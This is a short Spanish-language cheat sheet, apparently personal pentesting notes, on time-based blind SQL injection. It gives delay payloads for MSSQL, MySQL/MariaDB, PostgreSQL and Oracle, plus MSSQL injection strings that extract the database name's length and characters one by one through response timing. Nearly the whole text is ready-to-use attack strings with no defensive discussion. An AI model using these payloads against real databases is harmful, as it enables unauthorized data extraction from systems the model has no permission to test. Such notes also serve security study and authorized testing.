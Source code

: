 ### Info

Aplicamos lógica de tiempo en SQL para ver si se inyecta y es validada analizando el tiempo que tardó la response.

### PAYLOADS

| DB   | payload |
|----------|------|
| MSSQL     | '; IF 1=1 WAITFOR DELAY '0:0:10'--  |
| MySQL/MariaDB    | AND (SELECT SLEEP(10) FROM dual WHERE database() LIKE '%')  |
| PostgreSQL    | \|\| (SELECT 1 FROM PG_SLEEP(10))   |
| Oracle    | AND 1234=DBMS_PIPE.RECEIVE_MESSAGE('RaNdStR',10)  |


### Extraer el length del nombre de una db

    <dato>'; IF (LEN(db_name()))=<num> WAITFOR DELAY '0:0:10'-- 

### Extraer el nombre de una DB

    <dato>'; IF (select substring(db_name(),<index>,1))='<letra>' WAITFOR DELAY '0:0:10'-- 




## Apéndice:
SQLMAP tiene todas las respuestas xD
